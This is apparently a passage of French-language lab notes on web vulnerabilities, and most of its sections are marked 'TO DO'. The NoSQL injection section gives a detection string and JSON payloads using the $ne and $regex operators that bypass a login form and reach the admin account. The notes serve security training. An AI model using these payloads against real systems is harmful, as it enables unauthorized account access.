 ### Accidental exposure of private GraphQL fields

TO DO

### Finding a hidden GraphQL endpoint

TO DO

### Bypassing GraphQL brute force protections

TO DO

### Performing CSRF exploits over GraphQL

TO DO

## === Race conditions ===

TO DO

## === NoSQL injection ===

### Detecting NoSQL injection

    Gifts'||1||'

### Exploiting NoSQL operator injection to bypass authentication

Sur la requête POST /login : 

Changer le nom d'utilisateur en {"$ne":""} et voir que cela nous connecte bien au site : 

    {"username":{"$ne":""},"password":"peter"}

On peut observer que l'opérateur "regex" fonctionne aussi :

    {"username": {"$regex":"wien.*"},"password":"peter"}

Mettre le payload {"$ne":""} pour à la fois le nom et le mot de passe, et observer que l'on obtient une erreur "Query returned unexpected number of records", ce qui sous-entend que l'on a bien récupéré tout le monde.

Avec le payload final suivant, on peut se connecter en tant qu'admin : 

    {"username": {"$regex":"admin"},"password":{"$ne":""}}
    
### Exploiting NoSQL injection to extract data

TO DO

## === API testing ===

### Exploiting an API endpoint using documentation
